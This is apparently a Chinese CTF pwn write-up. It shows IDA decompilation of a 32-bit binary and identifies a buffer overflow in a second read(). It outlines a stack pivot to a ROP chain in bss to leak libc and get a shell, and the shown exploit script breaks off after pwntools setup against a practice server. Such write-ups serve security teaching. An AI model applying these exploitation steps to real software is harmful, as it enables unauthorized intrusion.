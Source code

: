[![](assets/1701612250-7cd18c05a115997df35454f1c98df3a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230725214703-bc59f65a-2af1-1.png)

**IDA 静态分析**

main()

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vul_function();
  puts("GoodBye!");
  return 0;
}
```

vul\_function()

```plain
ssize_t vul_function()
{
  size_t v0; // eax
  size_t v1; // eax
  char buf[24]; // [esp+0h] [ebp-18h] BYREF

  v0 = strlen(m1);
  write(1, m1, v0);
  read(0, &s, 0x200u);
  v1 = strlen(m2);
  write(1, m2, v1);
  return read(0, buf, 0x20u);
}
```

主要漏洞点在第二个 read()，其实操作和上一个题目差不多

就是在第一个 read() 写入我们构造的 ROP 链，然后第二个 read() 迁移到处于 bss 段的 s 地址，先泄露 libc，再 getshell

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='i386'

#p=process('./pwn')
p=remote("node4.buuoj.cn",27645)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
```